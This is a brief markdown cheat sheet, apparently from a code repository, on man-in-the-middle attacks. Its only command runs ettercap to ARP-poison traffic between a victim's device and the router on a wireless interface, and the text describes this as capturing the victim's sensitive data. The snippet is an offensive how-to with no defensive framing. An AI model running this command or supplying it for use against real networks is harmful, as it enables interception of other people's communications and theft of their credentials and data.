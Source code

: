 # Man-in-the-Middle Attack

A MITM attack involves intercepting and potentially altering communication between a device and the network.

## Commands

#### 1) Launch an ARP poisoning MITM attack

    ettercap -T -q -i wlan0mon -M arp:remote /VICTIM_IP/ /ROUTER_IP/

You intercept traffic between a victim’s device and the router, capturing sensitive data.
